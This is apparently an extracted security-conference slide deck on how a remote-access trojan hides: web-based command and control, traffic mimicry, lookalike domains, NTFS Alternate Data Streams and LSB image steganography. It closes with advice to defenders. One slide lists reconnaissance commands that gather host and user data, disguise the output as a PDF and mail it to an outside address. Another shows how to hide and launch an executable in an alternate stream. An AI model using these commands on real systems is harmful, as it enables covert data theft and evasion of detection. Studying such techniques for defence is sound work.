



Hiding in Plain Sight
Presented by Rob Gillen / @argodev

This work is licensed under a Creative Commons Attribution 4.0 International License.
This talk and related resources are available online: https://github.com/argodev/talks/
Disclaimer
The content of this presentation represents my personal views and thoughts at the present time. I reserve the right to change my views and opinions at any time. This content is not endorsed by, or representative in any way of my employer nor is it intended to be a view into my work or a reflection on the type of work that I or my group performs. It is simply a hobby and personal interest and should be considered as such.
HTDCS
- Helpdesk Ticket Driven Cyber Security


Overview
- RAT Design
- Encryption
- Command/Control (C2)
- AntiVirus
- Behavior
RAT Design
- Exe is dropped via infected page
- Queries web page for commands
- Performs commands if not done previously
- Periodically polls for new commands
Encryption
- Complex Encryption is trivial
- PBKDF – Scrypt sequential memory-hard function
- Many iterations (> 10K)
- Long key-lengths
Encryption Example
- Above configuration is custom-hardware resistant
- Takes approximately ¼ second per guess
Command/Control
- Use Web2C Approach
- Commands are “issued” en masse via normal, benign looking web pages
- Common ports
- Leverages existing HTML/server constructs
Command Text
ipconfig /all > %APPDATA%\info.txt
net start >> %APPDATA%\info.txt
tasklist /v >> %APPDATA%\info.txt
net user >> %APPDATA%\info.txt
net localgroup administrators >> %APPDATA%\info.txt
netstat -ano >> %APPDATA%\info.txt
net use >> %APPDATA%\info.txt
copy %APPDATA%\info.txt %APPDATA%\output.pdf
del %APPDATA%\info.txt
sendmail %APPDATA%\output.pdf Status Update
“Jones, William E. wejones@yourorg.gov”
itebaffe-836@yopmail.com smtp.yourorg.gov
del %APPDATA%\output.pdf
Mimic User Behavior
- Traffic Rates
- Monitor incoming/outgoing network traffic for X days
- Configure xfil to stay within X% of “normal”
- C2
- Exponential/randomized stand-down
- Only comm during periods of activity
Mimic User Behavior
- Target URLs
- Monitor outgoing web queries/URLs for X days
- Use similar domain names for malicious traffic
- Append similar/same query strings to malicious requests
Hiding in Logs
v-client-5b.sjc.dropbox.com
snt-re3-9a.sjc.dropbox.com
yn-in-f125.1e100.net
l1.ycs.vip.dcb.yahoo.com
snt-re3-9a.sjc.drpbox.com
ip-69-31-29-228.nlayer.net
a23-47-20-211.deploy.static.akamaitechnologies.com
l3.ycs.vip.dcb.yahoo.com
ir2.fp.vip.bf1.yahoo.com
www.nbcnews.com.edgesuite.net
wac.946A.edgecastcdn.net
a2.twimg.com
Other Hiding Techniques
- Office File content embedding
- Creative location
- Alternate Data Streams
- Least Significant Bit
- Network Protocol Manipulation
Creative File Locations
Alternate Data Streams
- Feature of NTFS since NT 3.5.1
- Used for metadata and compatibility with other file systems
So What?
#notepad pcast-nitrd-report-2010.pdf:secret.txt
What about this?
#type evil.exe > notepad.exe:evil.exe
#start notepad.exe:evil.exe
Crude Image Stego: LSB
- Least Significant Bit – alter it and encode message across LSB through various bytes
- Visually imperceptible
- Computationally challenging to detect
- Encryption also an option
LSB: How It Works
Carrier Image
- Image Data:
- Size: 2.1 MB
- Dimensions:
3500 x 2343 px - Resolution: 300 dpi
- Bit Depth: 24
- ~ 8 Megapixel
- “Secret” Message:
Welcome! Remember,
things aren’t always
what they seem.
LSB Blow Up

Network Protocol Abuse
Challenges of
Signature-Based Tools
Next Steps
- Know what you can and can’t see
- Consider implications of your monitoring strategy
- Behavior *must* play a role
Questions/Contact
Rob Gillen
rob@gillenfamily.net
http://rob.gillenfamily.net
@argodev
This talk and related resources are available online: https://github.com/argodev/talks/